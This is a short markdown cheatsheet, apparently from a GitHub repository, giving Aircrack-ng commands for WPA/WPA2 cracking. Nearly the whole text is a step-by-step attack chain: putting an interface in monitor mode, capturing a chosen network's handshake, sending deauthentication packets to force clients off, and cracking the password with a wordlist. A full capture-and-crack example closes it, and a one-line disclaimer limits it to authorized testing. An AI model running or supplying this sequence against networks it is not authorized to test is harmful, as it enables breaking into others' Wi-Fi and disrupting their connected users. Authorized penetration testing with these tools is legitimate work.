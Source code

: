 This cheatsheet includes essential commands for wireless network auditing and WPA/WPA2 password cracking using the Aircrack-ng suite.

> ⚠️ For educational and authorized penetration testing only.

bash
# Step 1: Enable Monitor Mode
sudo airmon-ng                       # List available wireless interfaces
sudo airmon-ng start wlan0          # Start monitor mode on wlan0
sudo airmon-ng stop wlan0mon        # Stop monitor mode (return to managed mode)

# Step 2: Discover Wi-Fi Networks
sudo airodump-ng wlan0mon                                 # List all nearby Wi-Fi networks
sudo airodump-ng --bssid <BSSID> -c <channel> -w handshake wlan0mon  # Capture handshake from specific network

# Step 3: Deauthenticate Clients to Capture Handshake
sudo aireplay-ng -0 5 -a <BSSID> wlan0mon                 # Send 5 deauthentication packets

# Step 4: Crack WPA/WPA2 Password
aircrack-ng -w wordlist.txt -b <BSSID> handshake.cap      # Use wordlist to crack captured handshake

# Additional Aircrack-ng Commands
aircrack-ng --help            # Full help menu
aircrack-ng -u                # Processor/SIMD information
aircrack-ng -S                # Benchmark speed
aircrack-ng --simd-list       # List supported SIMD types
aircrack-ng -J file.hccap     # Convert capture to Hashcat format
aircrack-ng -E file.ewsa      # Generate Elcomsoft project file
aircrack-ng -C <macs>         # Merge multiple APs into one virtual AP

# Tools from Aircrack-ng Suite
airmon-ng         # Manage monitor mode
airodump-ng       # Scan and log networks
aireplay-ng       # Inject packets (e.g., deauth attacks)
aircrack-ng       # Crack passwords
airolib-ng        # Manage network/password databases
packetforge-ng    # Create custom packets for injection

# Example: Full Handshake Capture and Crack
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
sudo airodump-ng --bssid <BSSID> -c <CH> -w capture wlan0mon
sudo aireplay-ng -0 10 -a <BSSID> wlan0mon
aircrack-ng -w rockyou.txt -b <BSSID> capture.cap

aircrack-ng -w wordlist.txt -b <BSSID> capture.cap

